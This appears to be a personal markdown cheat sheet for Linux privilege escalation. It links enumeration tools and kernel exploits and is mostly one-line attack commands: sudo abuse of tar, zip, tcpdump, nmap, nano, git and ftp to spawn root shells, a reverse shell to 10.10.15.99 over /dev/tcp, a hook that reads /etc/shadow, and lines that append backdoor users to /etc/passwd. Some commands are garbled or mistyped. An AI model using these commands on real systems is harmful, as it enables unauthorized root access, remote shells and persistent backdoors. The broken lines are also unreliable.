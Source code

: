 # Privilege Escalation

## Tools

- BeRoot: <https://github.com/AlessandroZ/BeRoot/tree/master/Linux>
- unix-privesc-check: <https://github.com/pentestmonkey/unix-privesc-check>
- linuxprivchecker.py - <http://www.securitysift.com/download/linuxprivchecker.py>
- LinEnum - <https://github.com/rebootuser/LinEnum>

## File Permissions

- Check file permissions of /etc/passwd and /etc/shadow

Find writable files

```
find -type f -maxdepth 1 -writable
```

Generate password hash (md5):

```
openssl passwd -1
```

```
echo 'joske' | openssl passwd -1 -stdin
```

Generate password hash (sha256):

```
python -c "import crypt; print crypt.crypt('joske')"
```

## SUID / SGID Binaries

Find SUID

```
find . -perm /4000
```

Find GUID

```
find . -perm /2000
```

Find SUID / SGID

```
find . -perm /6000
```

Find and ls SUID / SGID

```
find "$DIRECTORY" -perm /6000 -exec ls -la {} \;
```

## Searching world writable files

```
find / -perm -w ~ -type l -ls 2?/dev/null
```

## Plain text username / password

```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
```

## Commands with sudo

```
sudo -l
```

## New file Permissions

```
umask
```

## Exploits

- Mempodipper compiled (Ubuntu 11 -> gimmeroot.c)
- Ubuntu (<= 18.10) - Dirty Sock: <https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html>

  - <https://github.com/initstring/dirty_sock/>

- Ubuntu 14.04 and 16.04: (CVE-2017-1000112) <https://cxsecurity.com/issue/WLB-2018010018>

- Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)

  - <https://www.exploit-db.com/exploits/14339>
  - HTB: Beep

- [GNU Screen 4.5.0 - Local Privilege Escalation - https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154) - Nice example for learning exploit writing

- CVE-2010-2961 - Ubuntu 10.04/10.10) - Local Privilege Escalation
  - mountall.c in mountall before 2.15.2 uses 0666 permissions for the root.rules file, which allows local users to gain privileges by modifying this file.
  - http://www.outflux.net/blog/archives/2010/10/13/mountall-umask/
  - https://www.ethicalhacker.net/features/root/tutorial-hacking-linux-with-armitage/

### overlayfs

- Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation: <https://www.exploit-db.com/exploits/37292>
- Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) - 'overlayfs' Local Privilege Escalation (1): <https://www.exploit-db.com/exploits/39166>
- Linux Kernel 4.3.3 - 'overlayfs' Local Privilege Escalation (2): <https://www.exploit-db.com/exploits/39230>

## Tar

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
tar -cvf a.tar a.sh
sudo tar -xvf a.tar --to-command /bin/bash
```

## Zip

```
sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```

## Strace

```
sudo strace -o/dev/null /bin/bash
```

## tcpdump

```
echo $’id\ncat /etc/shadow’ > /tmp/.shell
chmod +x /tmp/.shell
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell-Z root
```

## nmap

```
echo "os.execute('/bin/sh')" > /tmp/shell.nse
sudo nmap --script=/tmp/shell.nse
```

## scp

```
sudo scp -S /path/yourscript x y
```

## except

```
sudo except spawn sh then sh
```

## nano

```
sudo nano -S /bin/bash
```

type your command and hit CTRL+T

## git

```
sudo git help status
```

type: !/bin/bash

## gdb/ftp

```
sudo ftp
```

type : !/bin/sh

## Add user with passwd

```
echo 'user2:*:1002:1003:,,,:/home/user2:/bin/bash' >> /etc/passwd
passwd user2

echo "user2:`openssl passwd -1 -salt user3 pass123`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

echo "user2:`mkpasswd -m SHA-512 pass`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

echo "user2:`python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

echo "user2:`perl -le 'print crypt("pass123", "abc")'`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

echo "user2:`php -r "print(crypt('aarti','123') . \"\n\");"`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd
```

## Add root user

```
adduser username
usermod -aG sudo username

```

## References

- <http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/>
- Linux Local Privilege Escalation via SUID /proc/pid/mem Write - <https://git.zx2c4.com/CVE-2012-0056/about/>
- <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>
